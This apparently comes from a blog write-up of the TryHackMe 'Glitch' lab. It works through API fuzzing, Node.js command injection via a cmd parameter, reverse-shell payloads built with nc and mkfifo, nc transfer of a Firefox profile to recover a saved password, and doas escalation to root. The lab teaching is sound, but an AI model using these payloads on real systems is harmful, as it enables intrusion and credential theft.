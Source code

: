 ```yaml
---
title: "TryHackMe - Glitch"
author: Nasrallah
description: ""
date: 2022-11-19 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, firefox, nodejs, reverse-shell, js]
img_path: /assets/img/tryhackme/glitch
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Glitch](https://tryhackme.com/room/glitch) from [TryHackMe](https://tryhackme.com). The machine is running a NodeJS application with a vulnerable api that we use to get foothold. After that we find a firefox profile that we run locally to get a password. Then we exploit a binary to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.114.236
Host is up (0.13s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: not allowed
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 80 open running nginx 1.14.0.

### Web

Let's go to the web page.

![](1.png)

We see a glitchy image. Let's check the source code.

![](2.png)

Found a hidden path(/api/access), let's see what's there.

![](3.png)

Got the value of token but it's base64 encoded. Let's decode it and replace the current token value in the cookie with the one we just got.

Refreshing the page we get a different page.

![](4.png)

The page doesn't have anything useful so let's check the source code.

![](5.png)

We can see a javascript file `script.js`. Let's check it out.

```js
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();

```

We found another path(/api/items), let's check it.

![](6.png)

Nothing really helpful. I checked the hint and it says `What other methods does the API accept?`, so i used `burp suite` to intercept a request and check the method from GET to POST.

![](7.png)

Now we forward the request, we sth new.

![](8.png)

We didn't get anything useful, but since we can use `POST` to the endpoint, maybe there is a parameter the api accepts.

Let's fuzz for that parameter using the following command:

```bash
ffuf -c -X POST -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -u http://10.10.114.236/api/items?FUZZ=test --fs 169
```

![](9.png)

We found the parameter and it's called `cmd`, so maybe we can execute command with it.

## **Foothold**

Let's use burp suite repeater to try the cmd parameter.

![](10.png)

Didn't work, but we got an error message informing us that we are dealing with an `NodeJS` application.

I found this [article](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) Where the author used the following command to get a reverse shell:

```js
require("child_process").exec('nc <IP Attacker> 4445 -e /bin/sh')
```

The `nc` will not work so let's change it to the following one.

```js
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f')
```

Let's URL encode the command and put it into the parameter, set up a netcat listener and get a reverse shell.

```js
require("child_process").exec('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.10.10%209001%20%3E%2Ftmp%2Ff')
```

![](11.png)

We send the request and get a shell.

![](12.png)


## **Privilege Escalation**

Inside user home directory, we find a hidden `.firefox` directory, maybe it has some saved passwords inside of it.

![](13.png)

Let's make an archive out of tha directory and download it into our machine.

```terminal
user@ubuntu:~$ tar -cf firefox.tgz .firefox
user@ubuntu:~$ ls
firefox.tgz  user.txt
```

On our machine we setup a listener that would catch the file.

```bash
nc -lvnp 1234 > firefox.tgz
```

Back to the compromised machine, we run the following command:

```terminal
user@ubuntu:~$ nc 10.18.0.188 1234 < firefox.tgz
```

Give the process some time to finish and we should see the file been transferred successfully.

![](14.png)

Extract it with `tar -xf firefox.tgz` and run the following command:

```bash
firefox --profile .firefox/b5w4643p.default-release 
```

This would start a firefox instance with the profile specified, and if we go to saved password we see `v0id`'s password.

![](15.png)

Now switch to void like the following:

```terminal
user@ubuntu:~$ su v0id
Password: 
v0id@ubuntu:/home/user$
```

In the /opt directory, we find something very interesting.

![](16.png)

Found a directory called `doas` and inside of it we find a `.git`.

I searched on github for `doas` and found this:

![](17.png)

We can run any command as other user. Let's run /bin/bash as root.

```terminal
v0id@ubuntu:/opt/doas$ doas -h
doas: invalid option -- 'h'
usage: doas [-nSs] [-a style] [-C config] [-u user] command [args]
v0id@ubuntu:/opt/doas$ doas -u root /bin/bash
Password: 
root@ubuntu:/opt/doas# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/opt/doas# 
```

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
